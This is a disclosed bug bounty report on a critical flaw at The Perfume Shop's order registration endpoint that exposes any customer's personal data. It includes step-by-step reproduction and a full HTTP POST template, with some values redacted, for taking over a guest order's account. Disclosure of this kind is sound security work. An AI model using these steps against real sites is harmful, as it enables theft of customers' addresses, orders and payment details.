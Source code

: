 # PII Disclosure At `theperfumeshop.com/register/forOrder`

## Report Details
- **Report ID**: 1618100
- **URL**: https://hackerone.com/reports/1618100
- **State**: Closed
- **Severity**: critical
- **Submitted**: 2022-06-28T16:21:34.888Z
- **Disclosed**: 2024-01-23T08:54:50.075Z

## Reporter
- **Username**: alp
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: watson_group

## Vulnerability Information
## Summary:

Hello there! I found a way to accesing any user's PII (full address, phone number, full name, ** all orders**, payment details [if the victim already saved before] )  who created a order in The Perfume Shop. 

This is happening via https://theperfumeshop.com/register/forOrder endpoint. I realized this endpoint after the guest checkout process was completed.

## Steps To Reproduce:

1. Open https://theperfumeshop.com website on your browser ( do not login to any account ).
2. Go to a product and add to your basket then, get your CSRF token and cookies.
3. Find a order ID who you want to attack. You can try with my order ID: `664448593`
4. Repeat this request on Burp Suite after replacing with the CSRF token, cookies, an email that not registered before and the order ID of the victim:

```http
POST /register/forOrder HTTP/2
Host: www.theperfumeshop.com
Cookie: █████
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:101.0) Gecko/20100101 Firefox/101.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: █████checkout/orderConfirmationByReferenceId/PROD_00000000000
Content-Type: application/x-www-form-urlencoded
Origin: https://www.theperfumeshop.com
Dnt: 1
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Te: trailers

orderCode=[order-id-of-victim]&email=[put-here-random-email]&associateCard=yes&termsCheck=1&dateOfBirth.day=██████████&dateOfBirth.month=█████████&dateOfBirth.year=███&pwd=███&checkPwd=██████&CSRFToken=[csrf-token-here]
```

You'll see `Location: ███████serverError` on response, this meant attack succesfully completed.

5. Go to ████████login page and login with the random email that you put in the request and this password -> `████`. 
6. After succesfully logged into the account, check addressses, orders and personal information.

Here's a proof of concept:

██████

Also, I set this report severity to Critical because CVSS calculator's response and comment of @lesswood in the #1542373:

> ███████


So, since I can easily harvest PII (full address, phone number, full name, ** all orders**, payment details [if the victim already saved before] ) and take over a system (can delete orders from victim's own account) without any privileges.

## Impact

Accesing any user's PII (full address, phone number, full name, ** all orders**, payment details [if the victim already saved before] )  who created a order in The Perfume Shop.

## Attachments
No attachments
